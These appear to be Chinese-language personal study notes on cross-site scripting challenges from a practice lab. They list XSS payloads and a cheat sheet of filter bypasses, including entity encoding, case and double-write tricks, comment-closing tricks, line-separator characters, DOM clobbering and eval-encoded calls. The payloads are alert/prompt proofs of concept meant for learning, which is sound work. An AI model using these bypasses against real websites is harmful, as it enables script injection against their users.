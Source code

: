 # XSS-EASY

## 语句

* 可以进行直接跳转的语句

  ```html
  <script>alert(1)</script>
  <a href=javascript:alert(1)>111</a>
  <input value="1" type="button" onclick="alert(1)">
  <input value="1" type="button" onclick=alert(1)> // 这个到底加不加引号...（加上肯定可以）
  <img src=ssss.ss onerror=alert(1)>
  <iframe src=11 onload=alert(1)>
  <iframe src=11 onmouseover=alert(1)>
  <svg onload=alert(1)>
  ```

* 包含跳转

  ```html
  <ng-include src="filename" onload="expression" autoscroll="expression" ></ng-include>
  ```

  如level15用到的

  ```html
  https://xss.angelo.org.cn/level15.php?src="level1.php?name=<a href=javascript:alert(1)>xss</a>"
  ```

## 绕过

* 如果源码自带引号

  * 需要使用引号（区分单双引号）进行闭合，还要闭合尖括号

  > 题目源码上用的双引号，但是又把双引号给实体化了，那就应该没有办法闭合了
  >
  > * 也许`%0d`跳到下一行？
  > * 也许可以尝试不闭合，直接在当前标签里面加内容，但是如果是value="xxx"，那也没有用

* 如果过滤了某个关键词

  * 将关键词某个地方添加下划线（更改关键词）
    * 换另外的关键词用
    * 使用命名实体绕过，如`s`可以写成`&#083;` `&#115;`
    * 大小写绕过

  * 将关键词置为空
    * 可以考虑大小写绕过
    * 可以双写绕过
    * 命名实体绕过
    * 换关键词

* 过滤空格
  
  可以考虑`%0a` `%0d`绕过，这种建议在地址栏输入
  
* 过滤了`<` `>`
  
  可以尝试用onclick在原本的标签里添加(因为不能添加标签了)
  
* 检测传上去的是否包含某个关键词

  * 可以将关键词放后面，然后注释掉，如需要`http://`关键词：

    ```
    java&#083;cript:alert(1) // http://
    ```

* 回显部分被隐藏，如`type="hidden"`
  * 在传输的时候，将type更改成可视，如`type="button"`，这个需要onclick等配合
  * 或者添加参数：onload，onerror，onmouseover等
* 网页显示图片的某个信息
  
* 更改图片的信息，造成XSS漏洞
  
* 找不到传输的地方？
  * user-agent
  * cookie
  * referer
  * ...

## 知识链接

1.  [命名实体](https://www.jb51.net/onlineread/htmlchar.htm) (非特殊字符转义后变成 `&#[ASCII码];`）

2.  [html标签](https://www.runoob.com/tags/html-reference.html)
3.  [ng-include](https://www.w3schools.com/angular/ng_ng-include.asp)

# XSS-MEDIUM

## 知识点
* 正则表达式
        [正则表达式基本语法](https://www.runoob.com/regexp/regexp-syntax.html)
        [正则表达式修饰符](https://www.runoob.com/regexp/regexp-flags.html)
        [正则表达式个人笔记](F:\$_File\web安全\Linux\正则表达式.md)

* `<script>`标签不饿能自动闭合

   > `<script>`标签必须要闭合，否则js代码不能执行
   > 只有img， input， link， hr，video，audio能自动闭合

* `__proto__`
    每个对象都会在内部初始化这个属性
    当访问对象的某个属性时，如果不存在这个属性，便会去proto里寻找这个属性。

* replace()特性

    <img src="_XSS-summarize_image/image-20201121001528627.png" alt="image-20201121001528627" style="zoom:50%;" />

    ```
    >'11223344'.replace('2',"test")
    "11test23344"
    >'11223344'.replace('2',"$`test")
    "1111test23344"
    >'11223344'.replace('2',"$'test")
    "1123344test23344"
    >'11223344'.replace('2',"$&test")
    "112test23344"
    ```

## 绕过

* 空格被置为空

    `(`将其实例化`&#40;` `&#040;`，还需要`<svg>`等标签将其反实例化。

    ```html
    <svg><script>alert&#40;1)</script>
    ```

* `->`被过滤，无法闭合注释。

    可以尝试使用`--!>`来闭合`<!--`
    
* 过滤了一般注释 如过滤了`<!--` 和`//`

    可以使用 `-->` 来注释

* 换行 (`\r` `\n`)被过滤，又必须要换行的时候（如绕过单行注释）

    **[Line Separator](http://codepoints.net/U+2028)** - `U+2028`  行分隔符
    **[Paragraph Separator](http://codepoints.net/U+2029)** - `U+2029`  段分隔符  

    使用方法：先用url编码写进burp，然后在burp里面进行url解码

    <img src="_XSS-summarize_image/burp%E8%BD%AC%E7%A0%81.png" alt="burp" style="zoom:50%;" />

* 过滤`on`开头`=`结尾，如`onclick=`

    因为等号的缘故，可以用空格换行等来绕过

    ```
    onclick
    =
    ```

* 检测`document`的某个元素

  可以用另一个元素进行重名覆盖，将input的name改成action，name的action就覆盖了document的action。

```html
<form action="123456" method="post"><input name="aaa" value="Matt"></form>
<script>
    if (!/script:|data:/i.test(document.forms[0].action)) 
        document.forms[0].submit();
</script>
<!-- payload: javascript:prompt(1)#{"action":"111"} -->
```

* 每一段有字符限制，无法构造完整payload

    ```html
    // payload
    // 在标签里面不能注释，如果标签确实差了一些字符，见第一条
    // 关键词不能用注释分开
    // 括号里可以注释
    // 关键词和后面的括号可以用注释分开
    "><svg a=
    /*
    <!--
    ```

* toUpperCase()

    这个时候一些函数因为被大写了，无法使用，可以尝试使用`src=` 这个参数，去包含自己的hack.js(文件名记得大写)

    这个函数还有一个bug， 就是`ſ`经过toUpperCase()之后会被转换成`s`，可以当`s`被过滤的时候来使用

* 当几乎所有的特殊字符都被过滤（包括`=`），但没有过滤`"` 和`()`

    这个时候可以使用`in`运算符

    >在js中,（prompt(1)instaneof"1"和（prompt(1)）in"1"是可以成功弹窗的，其中双引号里面的1可以是任何字符，这里的in或者instanceof是运算符，所以可以有这样的语法结构。
    >
    >```
    >"(prompt(1))instanceof"
    >"(prompt(1))in"
    >```

* 当你的payload直接被加在`<script>`标签里面的时候，又被屏蔽了关键字

    可以采用编解码加eval的方式在过滤，如：

    ```html
    <script> eval((1354620604).toString(35))(1) </script>
    <!-- <script> prompt(1)</script> -->
    ```

